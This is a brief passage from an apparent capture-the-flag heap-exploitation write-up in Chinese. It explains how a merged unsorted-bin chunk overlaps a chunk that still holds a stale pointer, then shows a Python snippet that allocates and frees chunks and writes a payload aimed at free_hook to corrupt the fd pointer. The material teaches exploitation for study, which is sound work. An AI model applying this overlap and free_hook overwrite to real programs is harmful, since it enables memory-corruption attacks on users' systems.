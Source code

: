 [![](assets/1701606615-9bc90de2ced3d82c4288d816f239ecc3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213050-31306870-83bb-1.png)  
可以看到 unsortedbin 中已经合并了  
这时候 chunk7 还保留了 chunk 指针，然后我们在合并的 unsorted bin 中申请 chunk，这时候 chunk7 和申请的 chunk 有重叠的部分，我们就可以去修改 chunk7 来改 fd 了

```bash
for i in range(7):
    add(i,0xf8,'')

add(9,0xf8,'')

delete(1)
delete(9)

pl = p64(0)+p64(0x100)+p64(free_hook)

edit(7,pl)
```

[![](assets/1701606615-fff09e87296afbe7ee5709f2a9b511f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213111-3d9d2152-83bb-1.png)
